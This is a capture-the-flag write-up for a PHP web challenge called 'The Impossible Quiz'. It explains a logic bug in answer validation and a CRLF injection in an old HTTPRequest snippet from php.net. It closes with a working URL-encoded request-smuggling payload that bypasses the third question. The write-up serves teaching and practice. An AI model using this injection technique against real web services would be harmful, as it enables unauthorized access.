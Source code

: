 # The Impossible Quiz (400 points)

This challenge is my personal favorite, as it consists of a mix
of logic bugs, code taken directly from the PHP website and a
vulnerability that you don't see often in CTFs.

## The application

The Impossible Quiz is meant to be an application that isn't
normally solvable. For that reason, the source code is made
available.

The web app asks us 3 questions, and goes through an odd
procedure in order to validate the answer:

1. The user sends the question and answer to `api.php`
2. The webapp does an HTTP request through the `validate()` function to determine
if the question/answer is correct.
3. The webapp spits the flag if you've successfully answered all 3 questions.

Here's what the validate function looks like :

```
function validate($question, $answer) {
    $url = "http://127.0.0.1/$question.php?answer=$answer";
    $r = new HTTPRequest($url);

    $response = $r->DownloadToString();
    $headers = $response->get_headers();
    $body = $response->get_body();

    if (stripos($body, "400 Bad Request") !== False ||
        stripos($body, "404 Not Found") !== False)
    {
      die("Hacker detected :/ What are you doing...");
    }

    return stripos($body, "The flagkeeper says yes.") !== False;
}
```

So if we want to validate the answer "test" for the question "question3",
the `validate()` function will send a request to
`http://127.0.0.1/question3.php?answer=test`.


Let's take a look at the question files :

Question 1:
```
<?php
  // [...]
  if (isset($_GET['answer']) and $_GET['answer'] === 'King Arthur of the Britons') {
     die("The flagkeeper says yes.");
  }

  die("The flagkeeper says nope :/");
?>
```

Question 2:
```
<?php
  // [...]
  if (isset($_GET['answer']) and $_GET['answer'] === 'I seek the Holy Grail!') {
     die("The flagkeeper says yes.");
  }

  die("The flagkeeper says nope :/");
?>
```

Question 3:
```
<?php
  // [...]
  // I WILL NEVER LET YOU PASS
  die("The flagkeeper says nope :/");
?>
```

Question 1 and 2 are obviously solvable, since the answer is in the source code.
However, question 3 can't be solved since "The flagkeeper says nope :/" will
always be returned.

## Logic bug

The first part that we have to understand is how `validate()` checks whether
an answer is correct or not.

```
    return stripos($body, "The flagkeeper says yes.") !== False;
```

`validate()` will return `True` if the sentence `The flagkeeper says yes.`
is **anywhere** in the response. Otherwise, return `False`. This means
that a `negative` response from the server is irrelevant. The only thing
being checked is wheter a `positive` message is in the  response.

Keep this in mind for the next part.


## HTTPRequest

There's probably 5+ different ways of sending an HTTP request. This one
has been taken from http://php.net/manual/en/function.fopen.php#58099 and
is 12 years old.

The issue with this function is that it's vulnerable to
[CRLF injection](https://www.owasp.org/index.php/CRLF_Injection), as shown
by this snippet :

```
   // generate request
        $req = 'GET ' . $this->_uri . ' HTTP/1.0' . $crlf
            .    'Host: ' . $this->_host . $crlf
            .    $crlf;
```

This allows us to perform [request smuggling](https://www.owasp.org/index.php/Testing_for_HTTP_Splitting/Smuggling_(OTG-INPVAL-016)#HTTP_Smuggling).

Essentially, we're appending keywords and newlines in the `$this->_uri` section
in order to craft a second response towards the end.

Let's say an HTTP request to `http://localhost/question3.php?answer=test`
looks like this:

```
GET /question3.php?answer=test HTTP/1.1
Host: localhost
```

By injecting `test HTTP/1.1\r\nHost: 127.0.0.1\r\n\r\nGET /question2.php?answer=test HTTP/1.1\r\nA: `, `httprequest.php` will end up sending :

```
GET /question3.php?answer=test HTTP/1.1
Host: 127.0.0.1

GET /question2.php?answer=test HTTP/1.1
A: HTTP/1.1
Host: localhost
```

... which will be interpreted as two requests by the webserver.
This also means that `HTTPRequest` will wait for the responses of
both requests before sending it to `validate()`.

## Solution

Since the application only checks for the existence of `The flagkeeper says yes.`
in the response, the solution here is to craft a request for `question3.php`
and smuggle a request to `question2.php` with the correct answer.

This will create in two responses :
1. The first response will be `The flagkeeper says no.` from the `question3.php` request.
2. The second response will be `The flagkeeper says yes.` from the smuggled `question2.php` request.

... resulting in `return stripos($body, "The flagkeeper says yes.") !== False;`
being true!

Here's the final URL and the resulting request :

```
http://localhost:23000/api.php?question=question3&answer=%20HTTP/1.1%0D%0AHost:%20127.0.0.1%0D%0A%0D%0AGET%20/question2.php?answer=I%2520seek%2520the%2520Holy%2520Grail!%20HTTP/1.1%0D%0AA:%20
```

```
GET /question3.php?answer= HTTP/1.1
Host: 127.0.0.1

GET /question2.php?answer=I%20seek%20the%20Holy%20Grail! HTTP/1.1
A: HTTP/1.1
Host: 127.0.0.1
```

